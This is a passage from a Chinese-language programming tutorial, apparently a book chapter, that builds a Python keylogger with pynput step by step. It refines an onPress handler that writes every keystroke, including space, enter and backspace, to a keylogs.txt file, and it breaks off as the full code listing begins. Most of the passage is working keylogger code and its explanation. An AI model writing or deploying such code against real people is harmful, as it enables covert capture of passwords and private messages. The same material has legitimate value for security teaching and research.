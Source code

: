     图 7.9 – 文件中存储的按键记录

1.  你可以在上面的截图中看到，每个字符周围都有引号。我们可以去掉这些引号以提高可读性。为了替换它，我们可以更新以下代码：

    def onPress(key):

    print(str(key))

    stroke = str(key).replace("'", "")

    if str(key) == "Key.esc":

    file.write(" ")

    else:

    file.write(stroke)

    在这里，我们做了两个改变。首先，在将它们写入文件之前，我们将单引号替换为空字符串；其次，如果按下的是*Esc*键，我们就不将它写入文件。现在，如果你运行程序，你会看到它只注册字符。

    如果你按下任何特殊键，比如*Enter*或*space*，你会看到程序记录的是它们的名称，而不是它们的功能，这不是我们想要的。我们希望用户按下空格键时能看到一个空格。为此，我们将做出以下更改：

    def onPress(key):

    print(str(key))

    stroke = str(key).replace("'", "")

    if str(key) == "Key.space":

    file.write(" ")

    elif str(key) == "Key.enter":

    file.write("\n")

    elif str(key) == "Key.esc":

    file.write(" ")

    else:

    file.write(stroke)

1.  我们的键盘记录器几乎完成了。我们只需要做一个最后的修改。我们的键盘记录器不支持退格键。为了添加此功能，看看以下代码：

    import os

    elif str(key) == "Key.backspace":

    file.seek(file.tell()-1, os.SEEK_SET)

    file.write("")

    这段代码检查是否有退格键，如果遇到退格键，我们会回退一个字符并在其位置放置一个空字符串。这样就替换了文件中原本存储的字符。现在，我们的基本键盘记录器已经完成。它支持字符插入，并且能够注册退格键的操作。键盘记录器的完整代码如下：

    from pynput import keyboard

    import sys

    import os

    filename = "keylogs.txt"
